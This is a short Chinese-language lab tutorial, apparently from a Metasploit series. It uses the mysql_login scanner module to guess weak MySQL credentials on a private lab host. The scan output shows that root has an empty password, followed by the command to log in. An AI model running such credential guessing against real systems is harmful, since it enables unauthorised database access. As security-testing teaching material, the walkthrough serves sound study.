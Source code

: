 # mysql安全检测

此次安全检测和《15.creds获取认证信息》类似

使用`auxiliary/scanner/mysql/mysql_login`模块进行弱口令认证

`msf6 auxiliary(scanner/mysql/mysql_login) > set rhost 192.168.108.132
rhost => 192.168.108.132
msf6 auxiliary(scanner/mysql/mysql_login) > set password root
password => root
msf6 auxiliary(scanner/mysql/mysql_login) > run`

`[+] 192.168.108.132:3306  - 192.168.108.132:3306 - Found remote MySQL version 5.0.51a
[-] 192.168.108.132:3306  - 192.168.108.132:3306 - LOGIN FAILED: root:root (Incorrect: Access denied for user 'root'@'192.168.108.130' (using password: YES))
[+] 192.168.108.132:3306  - 192.168.108.132:3306 - Success: 'root:'
[*] 192.168.108.132:3306  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed`

设置好参数后运行即可，发现root的密码为空

使用`mysql -h 192.168.108.132 -u root -p `即可登录


